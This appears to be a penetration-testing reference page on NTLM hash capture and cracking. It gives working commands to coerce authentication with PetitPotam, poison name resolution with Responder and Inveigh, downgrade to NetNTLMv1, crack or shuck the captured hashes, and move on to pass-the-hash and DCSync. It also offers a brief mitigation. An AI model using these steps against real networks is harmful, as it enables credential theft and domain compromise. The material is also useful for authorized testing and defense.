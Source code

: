# Hash - Capture and Cracking

## LmCompatibilityLevel

LmCompatibilityLevel is a Windows security setting that determines the level of authentication protocol used between computers. It specifies how Windows handles NTLM and LAN Manager (LM) authentication protocols, impacting how passwords are stored and how authentication requests are processed. The level can range from 0 to 5, with higher levels generally providing more secure authentication methods.

```ps1
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel
```

* **Level 0** - Send LM and NTLM response; never use NTLM 2 session security. Clients use LM and NTLM authentication, and never use NTLM 2 session security; domain controllers accept LM, NTLM, and NTLM 2 authentication.
* **Level 1** - Use NTLM 2 session security if negotiated. Clients use LM and NTLM authentication, and use NTLM 2 session security if the server supports it; domain controllers accept LM, NTLM, and NTLM 2 authentication.
* **Level 2** - Send NTLM response only. Clients use only NTLM authentication, and use NTLM 2 session security if the server supports it; domain controllers accept LM, NTLM, and NTLM 2 authentication.
* **Level 3** - Send NTLM 2 response only. Clients use NTLM 2 authentication, and use NTLM 2 session security if the server supports it; domain controllers accept LM, NTLM, and NTLM 2 authentication.
* **Level 4** - Domain controllers refuse LM responses. Clients use NTLM authentication, and use NTLM 2 session security if the server supports it; domain controllers refuse LM authentication (that is, they accept NTLM and NTLM 2).
* **Level 5** - Domain controllers refuse LM and NTLM responses (accept only NTLM 2). Clients use NTLM 2 authentication, use NTLM 2 session security if the server supports it; domain controllers refuse NTLM and LM authentication (they accept only NTLM 2).A client computer can only use one protocol in talking to all servers. You cannot configure it, for example, to use NTLM v2 to connect to Windows 2000-based servers and then to use NTLM to connect to other servers. This is by design.


## Capturing and cracking Net-NTLMv1/NTLMv1 hashes/tokens

> Net-NTLMv1 (NTLMv1) authentication tokens are used for network authentication. They are derived from a challenge/response DES-based algorithm with the user's NT-hash as symetric keys. 

:information_source: Coerce a callback using PetitPotam or SpoolSample on an affected machine and downgrade the authentication to **NetNTLMv1 Challenge/Response authentication**. This uses the outdated encryption method DES to protect the NT/LM Hashes.

**Requirements**:

* `LmCompatibilityLevel = 0x1`: Send LM and NTLM response


**Exploitation**:

* Capturing using [lgandx/Responder](https://github.com/lgandx/Responder): Edit the `/etc/responder/Responder.conf` file to include the magical **1122334455667788** challenge
    ```ps1
    HTTPS = On
    DNS = On
    LDAP = On
    ...
    ; Custom challenge.
    ; Use "Random" for generating a random challenge for each requests (Default)
    Challenge = 1122334455667788
    ```
* Fire Responder: `responder -I eth0 --lm`, if `--disable-ess` is set, extended session security will be disabled for NTLMv1 authentication
* Force a callback:
    ```ps1
    PetitPotam.exe Responder-IP DC-IP # Patched around August 2021
    PetitPotam.py -u Username -p Password -d Domain -dc-ip DC-IP Responder-IP DC-IP # Not patched for authenticated users
    ```
* If you got some `NetNTLMv1 tokens`, you can try to **shuck** them online via [Shuck.Sh](https://shuck.sh/) or locally/on-premise via [ShuckNT](https://github.com/yanncam/ShuckNT/) to get NT-hashes corresponding from [HIBP database](https://haveibeenpwned.com/Passwords). If the NT-hash has previously leaked, the NetNTLMv1 is converted to NT-hash ([pass-the-hash](#pass-the-hash) ready) instantly. The [shucking process](https://www.youtube.com/watch?v=OQD3qDYMyYQ&ab_channel=PasswordVillage) works for any NetNTLMv1 with or without ESS/SSP (challenge != `1122334455667788`) but mainly for user account (plaintext previsouly leaked).
    ```ps1
    # Submit NetNTLMv1 online to https://shuck.sh/get-shucking.php
    # Or shuck them on-premise via ShuckNT script:
    $ php shucknt.php -f tokens-samples.txt -w pwned-passwords-ntlm-reversed-ordered-by-hash-v8.bin
	[...]
	10 hashes-challenges analyzed in 3 seconds, with 8 NT-Hash instantly broken for pass-the-hash and 1 that can be broken via crack.sh for free.
	[INPUT] ycam::ad:DEADC0DEDEADC0DE00000000000000000000000000000000:70C249F75FB6D2C0AC2C2D3808386CCAB1514A2095C582ED:1122334455667788
	        [NTHASH-SHUCKED] 93B3C62269D55DB9CA660BBB91E2BD0B
    ```
* If you got some `NetNTLMv1 tokens`, you can also try to crack them via [Crack.Sh](https://crack.sh/) (cloud service when available, more time and potentially chargeable). For this you need to format them to submit them on [Crack.Sh](https://crack.sh/netntlm/). The Converter of [Shuck.Sh](https://shuck.sh/) can be used to convert format easily.
    ```ps1
    # When there is no-ESS/SSP and the challenge is set to 1122334455667788, it's free (0$):
    username::hostname:response:response:challenge -> NTHASH:response
    NTHASH:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972

    # When there is ESS/SSP or challenge != 1122334455667788, it's chargeable from $20-$200:
    username::hostname:lmresponse+0padding:ntresponse:challenge -> $NETNTLM$challenge$ntresponse
    $NETNTLM$DEADC0DEDEADC0DE$507E2A2131F4AF4A299D8845DE296F122CA076D49A80476E
    ```
* Finaly, if no [Shuck.Sh](https://shuck.sh/) nor [Crack.Sh](https://crack.sh/) can be used, you can try to break NetNTLMv1 with Hashcat / John The Ripper
    ```ps1
    john --format=netntlm hash.txt
    hashcat -m 5500 -a 3 hash.txt # for NetNTLMv1(-ESS/SSP) to plaintext (for user account)
    hashcat -m 27000 -a 0 hash.txt nthash-wordlist.txt # for NetNTLMv1(-ESS/SSP) to NT-hash (for user and computer account, depending on nthash-wordlist quality)
    hashcat -m 14000 -a 3 inputs.txt --hex-charset -1 /usr/share/hashcat/charsets/DES_full.hcchr ?1?1?1?1?1?1?1?1 # for NetNTLMv1(-ESS/SSP) to DES-keys (KPA-attack) of user/computer account with 100% success rate, then regenerate NT-hash with these DES-keys on https://shuck.sh/converter.php.
    ```
* Now you can DCSync using the Pass-The-Hash with the DC machine account

:warning: NetNTLMv1 with ESS / SSP (Extended Session Security / Security Support Provider) changes the final challenge by adding a new alea (!= `1122334455667788`, so chargeable on [Crack.Sh](https://crack.sh/)).

:warning: NetNTLMv1 format is `login::domain:lmresp:ntresp:clientChall`. If the `lmresp` contains a **0's-padding** this means that the token is protected by **ESS/SSP**.

:warning: NetNTLMv1 final challenge is the Responder's challenge itself (`1122334455667788`) when there is no ESS/SSP. If ESS/SSP is enabled, the final challenge is the first 8 bytes of the MD5 hash from the concatenation of the client challenge and server challenge. The details of the algorithmic generation of a NetNTLMv1 are illustrated on the [Shuck.Sh Generator](https://shuck.sh/generator.php) and detailed in [MISCMag#128](https://connect.ed-diamond.com/misc/misc-128/shuck-hash-before-trying-to-crack-it).

:warning: If you get some tokens from other tools ([hostapd-wpe](https://github.com/OpenSecurityResearch/hostapd-wpe) or [chapcrack](https://github.com/moxie0/chapcrack)) in other formats, like tokens starting with the prefix `$MSCHAPv2$`, `$NETNTLM$` or `$99$`, they correspond to a classic NetNTLMv1 and can be converted from one format to another [here](https://shuck.sh/converter.php).


**Mitigations**: 

* Set the Lan Manager authentication level to `Send NTLMv2 responses only. Refuse LM & NTLM`


## Capturing and cracking Net-NTLMv2/NTLMv2 hashes

If any user in the network tries to access a machine and mistype the IP or the name, Responder will answer for it and ask for the NTLMv2 hash to access the resource. Responder will poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network.

```powershell
# https://github.com/lgandx/Responder
$ sudo ./Responder.py -I eth0 -wfrd -P -v

# https://github.com/Kevin-Robertson/InveighZero
PS > .\inveighzero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]

# https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1
PS > Invoke-Inveigh [-IP '10.10.10.10'] -ConsoleOutput Y -FileOutput Y -NBNS Y –mDNS Y –Proxy Y -MachineAccounts Y
```

Crack the hashes with Hashcat / John The Ripper

```ps1
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```


## References

* [NTLMv1_Downgrade.md - S3cur3Th1sSh1t - 09/07/2021](https://gist.github.com/S3cur3Th1sSh1t/0c017018c2000b1d5eddf2d6a194b7bb)
* [Practical Attacks against NTLMv1 - Esteban Rodriguez - September 15, 2022](https://trustedsec.com/blog/practical-attacks-against-ntlmv1)
* [Attacking LM/NTLMv1 Challenge/Response Authentication - defence in depth - April 21, 2011](http://www.defenceindepth.net/2011/04/attacking-lmntlmv1-challengeresponse_21.html)
* [CRACKING NETLM/NETNTLMV1 AUTHENTICATION - crack.sh](https://crack.sh/netntlm/)
* [NTLMv1 to NTLM Reversing - evilmog - 03-03-2020](https://hashcat.net/forum/thread-9009-post-47806.html)